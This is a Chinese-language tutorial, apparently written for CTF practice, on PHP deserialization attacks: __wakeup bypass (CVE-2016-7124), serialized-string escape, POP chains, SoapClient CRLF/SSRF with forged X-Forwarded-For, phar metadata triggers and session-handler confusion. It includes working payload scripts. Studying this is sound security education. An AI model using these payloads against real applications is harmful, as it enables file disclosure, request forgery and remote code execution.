# PHP反序列化这一篇就够了

## 简介

序列化其实就是将数据转化成一种可逆的数据结构，自然，逆向的过程就叫做反序列化。

在网上找到一个比较形象的例子

> 比如：现在我们都会在淘宝上买桌子，桌子这种很不规则的东西，该怎么从一个城市运输到另一个城市，这时候一般都会把它拆掉成板子，再装到箱子里面，就可以快递寄出去了，这个过程就类似我们的序列化的过程（把数据转化为可以存储或者传输的形式）。当买家收到货后，就需要自己把这些板子组装成桌子的样子，这个过程就像反序列的过程（转化成当初的数据对象）。

php 将数据序列化和反序列化会用到两个函数 

**serialize** 将对象格式化成有序的字符串 

**unserialize** 将字符串还原成原来的对象

序列化的目的是方便数据的传输和存储，在PHP中，序列化和反序列化一般用做缓存，比如session缓存，cookie等。

## 常见的序列化格式

了解即可

- 二进制格式
- 字节数组
- json字符串
- xml字符串

## 案例引入

简单的例子(以数组为例子)

```php
<?php
$user=array('xiao','shi','zi');
$user=serialize($user);
echo($user.PHP_EOL);
print_r(unserialize($user));
```

他会输出

```php
a:3:{i:0;s:4:"xiao";i:1;s:3:"shi";i:2;s:2:"zi";}
Array
(
    [0] => xiao
    [1] => shi
    [2] => zi
)
```

我们对上面这个例子做个简单讲解，方便大家入门

```php
a:3:{i:0;s:4:"xiao";i:1;s:3:"shi";i:2;s:2:"zi";}
a:array代表是数组，后面的3说明有三个属性
i:代表是整型数据int，后面的0是数组下标
s:代表是字符串，后面的4是因为xiao长度为4
    
依次类推
```

序列化后的内容只有成员变量，没有成员函数，比如下面的例子

```
<?php
class test{
    public $a;
    public $b;
    function __construct(){$this->a = "xiaoshizi";$this->b="laoshizi";}
    function happy(){return $this->a;}
}
$a = new test();
echo serialize($a);
?>
```

输出(O代表Object是对象的意思，也是类)

```
O:4:"test":2:{s:1:"a";s:9:"xiaoshizi";s:1:"b";s:8:"laoshizi";}
```

而如果变量前是protected，则会在变量名前加上`\x00*\x00`,private则会在变量名前加上`\x00类名\x00`,输出时一般需要url编码，若在本地存储更推荐采用base64编码的形式，如下：

```php
<?php
class test{
    protected  $a;
    private $b;
    function __construct(){$this->a = "xiaoshizi";$this->b="laoshizi";}
    function happy(){return $this->a;}
}
$a = new test();
echo serialize($a);
echo urlencode(serialize($a));
?>
```

输出则会导致不可见字符`\x00`的丢失

```php
O:4:"test":2:{s:4:" * a";s:9:"xiaoshizi";s:7:" test b";s:8:"laoshizi";}
```


## 反序列化中常见的魔术方法

```php
__wakeup() //执行unserialize()时，先会调用这个函数
__sleep() //执行serialize()时，先会调用这个函数
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据或者不存在这个键都会调用此方法
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当尝试将对象调用为函数时触发
```

## 反序列化绕过小Trick

### php7.1+反序列化对类属性不敏感

我们前面说了如果变量前是protected，序列化结果会在变量名前加上`\x00*\x00`

但在特定版本7.1以上则对于类属性不敏感，比如下面的例子即使没有`\x00*\x00`也依然会输出`abc`

```
<?php
class test{
    protected $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function  __destruct(){
        echo $this->a;
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');
```

### 绕过__wakeup(CVE-2016-7124)

> 版本：
>
> ​	PHP5 < 5.6.25
>
> ​	PHP7 < 7.0.10

利用方式：`序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行`

对于下面这样一个自定义类

```php
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function __wakeup(){
        $this->a='666';
    }
    public function  __destruct(){
        echo $this->a;
    }
}
```

如果执行`unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');`输出结果为`666`

而把对象属性个数的值增大执行`unserialize('O:4:"test":2:{s:1:"a";s:3:"abc";}');`输出结果为abc

### 绕过部分正则

`preg_match('/^O:\d+/')`匹配序列化字符串是否是对象字符串开头,这在曾经的CTF中也出过类似的考点

- 利用加号绕过（注意在url里传参时+要编码为%2B）
- serialize(array($a));//$a为要反序列化的对象(序列化结果开头是a，不影响作为数组元素的$a的析构)

```php
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function  __destruct(){
        echo $this->a.PHP_EOL;
    }
}

function match($data){
    if (preg_match('/^O:\d+/',$data)){
        die('you lose!');
    }else{
        return $data;
    }
}
$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}';
// +号绕过
$b = str_replace('O:4','O:+4', $a);
unserialize(match($b));
// serialize(array($a));
unserialize('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}');
```

### 利用引用

```php
<?php
class test{
    public $a;
    public $b;
    public function __construct(){
        $this->a = 'abc';
        $this->b= &$this->a;
    }
    public function  __destruct(){

        if($this->a===$this->b){
            echo 666;
        }
    }
}
$a = serialize(new test());
```

上面这个例子将`$b`设置为`$a`的引用，可以使`$a`永远与`$b`相等

### 16进制绕过字符的过滤

```php
O:4:"test":2:{s:4:"%00*%00a";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
可以写成
O:4:"test":2:{S:4:"\00*\00\61";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
表示字符类型的s大写时，会被当成16进制解析。
```

我这里写了一个例子

```php
<?php
class test{
    public $username;
    public function __construct(){
        $this->username = 'admin';
    }
    public function  __destruct(){
        echo 666;
    }
}
function check($data){
    if(stristr($data, 'username')!==False){
        echo("你绕不过！！".PHP_EOL);
    }
    else{
        return $data;
    }
}
// 未作处理前
$a = 'O:4:"test":1:{s:8:"username";s:5:"admin";}';
$a = check($a);
unserialize($a);
// 做处理后 \75是u的16进制
$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}';
$a = check($a);
unserialize($a);
```

### PHP反序列化字符逃逸

#### 情况1：过滤后字符变多

首先给出本地的php代码，很简单不做过多的解释，就是把反序列化后的一个x替换成为两个

```
<?php
function change($str){
    return str_replace("x","xx",$str);
}
$name = $_GET['name'];
$age = "I am 11";
$arr = array($name,$age);
echo "反序列化字符串：";
var_dump(serialize($arr));
echo "<br/>";
echo "过滤后:";
$old = change(serialize($arr));
$new = unserialize($old);
var_dump($new);
echo "<br/>此时，age=$new[1]";
```

正常情况,传入`name=mao`



如果此时多传入一个x的话会怎样，毫无疑问反序列化失败，由于溢出(s本来是4结果多了一个字符出来)，我们可以利用这一点实现字符串逃逸



首先来看看结果，再来讲解



我们传入`name=maoxxxxxxxxxxxxxxxxxxxx";i:1;s:6:"woaini";}`
`";i:1;s:6:"woaini";}`这一部分一共二十个字符
由于一个x会被替换为两个，我们输入了一共20个x，现在是40个，多出来的20个x其实取代了我们的这二十个字符`";i:1;s:6:"woaini";}`，从而造成`";i:1;s:6:"woaini";}`的溢出，而`"`闭合了前串，使得我们的字符串成功逃逸，可以被反序列化，输出`woaini`
最后的`;}`闭合反序列化全过程导致原来的`";i:1;s:7:"I am 11";}"`被舍弃，不影响反序列化过程`

#### 情况2：过滤后字符变少

老规矩先上代码,很简单不做过多的解释，就是把反序列化后的两个x替换成为一个

```php
<?php
function change($str){
    return str_replace("xx","x",$str);
}
$arr['name'] = $_GET['name'];
$arr['age'] = $_GET['age'];
echo "反序列化字符串：";
var_dump(serialize($arr));
echo "<br/>";
echo "过滤后:";
$old = change(serialize($arr));
var_dump($old);
echo "<br/>";
$new = unserialize($old);
var_dump($new);
echo "<br/>此时，age=";
echo $new['age'];
```

正常情况传入`name=mao&age=11`的结果



老规矩看看最后构造的结果，再继续讲解



简单来说，就是前面少了一半，导致后面的字符被吃掉，从而执行了我们后面的代码；
我们来看，这部分是age序列化后的结果

`s:3:"age";s:28:"11";s:3:"age";s:6:"woaini";}"`

由于前面是40个x所以导致少了20个字符，所以需要后面来补上，`";s:3:"age";s:28:"11`这一部分刚好20个，后面由于有`"`闭合了前面因此后面的参数就可以由我们自定义执行了

## 对象注入

当用户的请求在传给反序列化函数`unserialize()`之前没有被正确的过滤时就会产生漏洞。因为PHP允许对象序列化，攻击者就可以提交特定的序列化的字符串给一个具有该漏洞的`unserialize`函数，最终导致一个在该应用范围内的任意PHP对象注入。

**对象漏洞**出现得满足两个前提

> 1、`unserialize`的参数可控。
> 2、 代码里有定义一个含有魔术方法的类，并且该方法里出现一些使用类成员变量作为参数的存在安全问题的函数。

比如这个例子

```php
<?php
class A{
    var $test = "y4mao";
    function __destruct(){
        echo $this->test;
    }
}
$a = 'O:1:"A":1:{s:4:"test";s:5:"maomi";}';
unserialize($a);
```

在脚本运行结束后便会调用`_destruct`函数，同时会覆盖test变量输出`maomi`


## POP链的构造利用

### POP链简单介绍

前面所讲解的序列化攻击更多的是魔术方法中出现一些利用的漏洞，因为自动调用而触发漏洞，但如果关键代码不在魔术方法中，而是在一个类的普通方法中。这时候可以通过寻找相同的函数名将类的属性和敏感函数的属性联系起来

### 简单案例讲解

首先看看简单的MRCTF2020-Ezpop,不带大家一一读代码了，自己解决

```php
<?php

class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
```

这里我直接说利用思路，首先逆向分析，我们最终是希望通过`Modifier`当中的`append`方法实现本地文件包含读取文件，回溯到调用它的`__invoke`，当我们`将对象调用为函数时触发`,发现在`Test`类当中的`__get`方法，再回溯到`Show`当中的`__toString`，再回溯到`Show`当中的`__construct`当中有`echo $this->source`可以调用`__toString`

因此不难构造pop链

```php
<?php
ini_set('memory_limit','-1');
class Modifier {
    protected  $var = 'php://filter/read=convert.base64-encode/resource=flag.php';
}

class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;
        $this->str = new Test();
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = new Modifier();
    }
}
$a = new Show('aaa');
$a = new Show($a);
echo urlencode(serialize($a));
```

## PHP原生类反序列化利用

### SoapClient介绍

> 综述： 
>
> php在安装php-soap拓展后，可以反序列化原生类SoapClient，来发送http post请求。
>
> 必须调用SoapClient不存在的方法，触发SoapClient的__call魔术方法。
>
> 通过CRLF来添加请求体：SoapClient可以指定请求的user-agent头，通过添加换行符的形式来加入其他请求内容

SoapClient采用了HTTP作为底层通讯协议，XML作为数据传送的格式，其采用了SOAP协议(*SOAP* 是一种简单的基于 XML 的协议,它使应用程序通过 HTTP 来交换信息)，其次我们知道某个实例化的类，如果去调用了一个不存在的函数，会去调用`__call`方法，具体详细的信息大家可以去搜索引擎看看，这里不再赘述

### 利用方式

下面首先在我的VPS上面开启监听`nc -lvvp 9328`

```
<?php
$a = new SoapClient(null,array('uri'=>'bbb', 'location'=>'http://xxxx.xxx.xx:9328'));
$b = serialize($a);
$c = unserialize($b);
$c -> not_a_function();//调用不存在的方法，让SoapClient调用__call
```

运行上面的php程序，在我的vps上面奖会捕获监听



从上面这张图可以看到，`SOAPAction`处是我们的可控参数，因此我们可以尝试注入我们自己恶意构造的**CRLF**即插入**\r\n**，利用成功！



但是还有个问题我们再发送POST数据的时候是需要遵循HTTP协议，指定请求头**Content-Type: application/x-www-form-urlencoded**但**Content-Type**在**SOAPAction**的上面，就无法控制**Content-Type**,也就不能控制POST的数据

接下来我们实验一下



### 实战

反序列化我们传入的**vip**执行getFlag函数(迷惑人的函数)

```php
<?php
highlight_file(__FILE__);
$vip = unserialize($_GET['vip']);
$vip->getFlag();
//flag.php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);
​
​
if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
```

由于服务器带有cloudfare代理，我们无法通过本地构造XFF头实现绕过，我们需要使用SoapClient与CRLF实现SSRF访问`127.0.0.1/flag.php`,即可绕过cloudfare代理

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1',
    'UM_distinctid:175648cc09a7ae-050bc162c95347-32667006-13c680-175648cc09b69d'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'y4tacker^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri' => "aaab"));
$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo urlencode($aaa);
```

接下来访问`flag.txt`即可

## Phar反序列化

phar文件本质上是一种压缩文件，会以序列化的形式存储用户自定义的meta-data。当受影响的文件操作函数调用phar文件时，会自动反序列化meta-data内的内容。

### 什么是phar文件

在软件中，PHAR（PHP归档）文件是一种打包格式，通过将许多PHP代码文件和其他资源（例如图像，样式表等）捆绑到一个归档文件中来实现应用程序和库的分发

php通过用户定义和内置的“流包装器”实现复杂的文件处理功能。内置包装器可用于文件系统函数，如(fopen(),copy(),file_exists()和filesize()。 phar://就是一种内置的流包装器。

php中一些常见的流包装器如下：

```php
file:// — 访问本地文件系统，在用文件系统函数时默认就使用该包装器
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```

### phar文件的结构

```php
stub:phar文件的标志，必须以 xxx __HALT_COMPILER();?> 结尾，否则无法识别。xxx可以为自定义内容。
manifest:phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是漏洞利用最核心的地方。
content:被压缩文件的内容
signature (可空):签名，放在末尾。
```

如何生成一个phar文件？下面给出一个参考例子

```php
<?php
    class Test {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new Test();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

### 漏洞利用条件

1. phar文件要能够上传到服务器端。
2. 要有可用的魔术方法作为“跳板”。
3. 文件操作函数的参数可控，且`:`、`/`、`phar`等特殊字符没有被过滤。

### 受影响的函数

知道创宇测试后受影响的函数列表：


实际上不止这些，也可以参考这篇链接，里面有详细说明https://blog.zsxsoft.com/post/38

当然为了阅读方便，这里便把它整理过来

```php
//exif
exif_thumbnail
exif_imagetype
    
//gd
imageloadfont
imagecreatefrom***系列函数
    
//hash
    
hash_hmac_file
hash_file
hash_update_file
md5_file
sha1_file
    
// file/url
get_meta_tags
get_headers
    
//standard 
getimagesize
getimagesizefromstring
    
// zip   
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
$z = 'compress.bzip2://phar:///home/sx/test.phar/test.txt';
$z = 'compress.zlib://phar:///home/sx/test.phar/test.txt';

//配合其他协议：(SUCTF)
//https://www.xctf.org.cn/library/details/17e9b70557d94b168c3e5d1e7d4ce78f475de26d/
//当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
//php://filter/read=convert.base64-encode/resource=phar://phar.phar

//Postgres pgsqlCopyToFile和pg_trace同样也是能使用的，需要开启phar的写功能。
<?php
	$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
	@$pdo->pgsqlCopyFromFile('aa', 'phar://phar.phar/aa');
?>
    
// Mysql
//LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper
//配置一下mysqld:
//[mysqld]
//local-infile=1
//secure_file_priv=""
    
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'testtable', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
?>
```

### 绕过方式

当环境限制了phar不能出现在前面的字符里。可以使用`compress.bzip2://`和`compress.zlib://`等绕过

```php
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt
```

 

当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
php://filter/read=convert.base64-encode/resource=phar://phar.phar


GIF格式验证可以通过在文件头部添加GIF89a绕过
1、$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
2、生成一个phar.phar，修改后缀名为phar.gif


## php-session反序列化

### session简单介绍

在计算机中，尤其是在网络应用中，称为“会话控制”。Session 对象存储特定用户会话所需的属性及配置信息。这样，当用户在应用程序的 Web 页之间跳转时，存储在 Session 对象中的变量将不会丢失，而是在整个用户会话中一直存在下去。当用户请求来自应用程序的 Web 页时，如果该用户还没有会话，则 Web 服务器将自动创建一个 Session 对象。当会话过期或被放弃后，服务器将终止该会话。

当第一次访问网站时，Seesion_start()函数就会创建一个唯一的Session ID，并自动通过HTTP的响应头，将这个Session ID保存到客户端Cookie中。同时，也在服务器端创建一个以Session ID命名的文件，用于保存这个用户的会话信息。当同一个用户再次访问这个网站时，也会自动通过HTTP的请求头将Cookie中保存的Seesion ID再携带过来，这时Session_start()函数就不会再去分配一个新的Session ID，而是在服务器的硬盘中去寻找和这个Session ID同名的Session文件，将这之前为这个用户保存的会话信息读出，在当前脚本中应用，达到跟踪这个用户的目的。

### session 的存储机制

php中的session中的内容并不是放在内存中的，而是以文件的方式来存储的，存储方式就是由配置项session.save_handler来进行确定的，默认是以文件的方式存储。
存储的文件是以sess_sessionid来进行命名的

| php_serialize | 经过serialize()函数序列化数组                            |
| ------------- | -------------------------------------------------------- |
| php           | 键名+竖线+经过serialize()函数处理的值                    |
| php_binary    | 键名的长度对应的ascii字符+键名+serialize()函数序列化的值 |

### php.ini中一些session配置

> session.save_path="" --设置session的存储路径
> session.save_handler=""--设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)
> session.auto_start boolen--指定会话模块是否在请求开始时启动一个会话默认为0不启动
> session.serialize_handler string--定义用来序列化/反序列化的处理器名字。默认使用php

### 利用姿势

#### session.upload_progress进行文件包含和反序列化渗透

这篇文章说的很详细了，没必要班门弄斧

https://www.freebuf.com/vuls/202819.html

#### 使用不同的引擎来处理session文件

##### $_SESSION变量直接可控

php引擎的存储格式是`键名|serialized_string`，而php_serialize引擎的存储格式是`serialized_string`。如果程序使用两个引擎来分别处理的话就会出现问题

来看看这两个php

```php
// 1.php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION['y4'] = $_GET['a'];
var_dump($_SESSION);
//2.php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class test{
    public $name;
    function __wakeup(){
        echo $this->name;
    }
}
```

首先访问1.php，传入参数`a=|O:4:"test":1:{s:4:"name";s:8:"y4tacker";}`再访问2.php，注意不要忘记`|`



由于`1.php`是使用`php_serialize`引擎处理，因此只会把`'|'`当做一个正常的字符。然后访问`2.php`，由于用的是`php`引擎，因此遇到`'|'`时会将之看做键名与值的分割符，从而造成了歧义，导致其在解析session文件时直接对`'|'`后的值进行反序列化处理。

这里可能会有一个小疑问，为什么在解析session文件时直接对`'|'`后的值进行反序列化处理，这也是处理器的功能？这个其实是因为`session_start()`这个函数，可以看下官方说明：

> 当会话自动开始或者通过 **session_start()** 手动开始的时候， PHP 内部会调用会话管理器的 open 和 read 回调函数。 会话管理器可能是 PHP 默认的， 也可能是扩展提供的（SQLite 或者 Memcached 扩展）， 也可能是通过 [session_set_save_handler()](https://www.php.net/manual/zh/function.session-set-save-handler.php) 设定的用户自定义会话管理器。 **通过 read 回调函数返回的现有会话数据**（使用特殊的序列化格式存储），**PHP 会自动反序列化数据并且填充 $_SESSION 超级全局变量**

因此我们成功触发了`test`类中的`__wakeup()`方法,所以这种攻击思路是可行的。但这种方法是在可以对`session`的进行赋值的，那如果代码中不存在对`$_SESSION`变量赋值的情况下又该如何利用

##### $_SESSION变量直接不可控

我们来看高校战疫的一道CTF题目

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

我们注意到这样一句话`ini_set('session.serialize_handler', 'php');`，因此不难猜测本身在`php.ini`当中的设置可能是`php_serialize`，在查看了`phpinfo`后得证猜测正确，也知道了这道题的考点

那么我们就进入phpinfo查看一下，enabled=on表示upload_progress功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ；只需往该地址任意 POST 一个名为 PHP_SESSION_UPLOAD_PROGRESS 的字段，就可以将filename的值赋值到session中



构造文件上传的表单

```html
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="777" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

接下来构造序列化payload

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class OowoO
{
    public $mdzz='print_r(scandir(dirname(__FILE__)));';
}
$obj = new OowoO();
echo serialize($obj);
?>
```

由于采用Burp发包，为防止双引号被转义，在双引号前加上`\`，除此之外还要加上`|`

在这个页面随便上传一个文件，然后抓包修改`filename`的值

